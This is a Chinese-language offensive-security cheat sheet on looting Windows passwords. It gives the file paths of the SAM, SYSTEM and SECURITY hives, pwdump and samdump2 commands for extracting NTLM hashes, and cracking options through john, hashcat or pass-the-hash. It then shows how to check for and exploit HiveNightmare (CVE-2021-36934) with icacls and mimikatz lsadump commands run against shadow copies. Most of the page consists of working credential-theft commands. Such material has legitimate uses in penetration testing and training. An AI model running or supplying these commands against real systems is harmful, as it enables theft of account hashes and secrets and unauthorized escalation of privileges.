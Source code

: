 ## EoP - 掠夺密码

### SAM和SYSTEM文件

安全账户管理器（SAM），通常是安全账户管理器，是一个数据库文件。用户密码以哈希格式存储在注册表配置单元中，要么是LM哈希，要么是NTLM哈希。这个文件可以在%SystemRoot%/system32/config/SAM中找到，并挂载在HKLM/SAM上。

```powershell
# 通常%SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

使用`pwdump`或`samdump2`为John生成哈希文件。

```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

使用`john -format=NT /root/sam.txt`破解它，[hashcat](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md#hashcat)或使用Pass-The-Hash。

### HiveNightmare

> CVE-2021–36934允许你在Windows 10和11中以非管理员用户身份检索所有注册表配置单元（SAM，SECURITY，SYSTEM）

使用`icacls`检查漏洞

```powershell
C:\Windows\System32> icacls config\SAM
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- 这是错误的 - 普通用户不应该有读取权限！
```

然后通过请求文件系统上的卷影副本并从其中读取配置单元来利用CVE。

```powershell
mimikatz> token::whoami /full

# 列出可用的卷影副本
mimikatz> misc::shadowcopies

# 从SAM数据库中提取账户
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# 从SECURITY中提取秘密
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
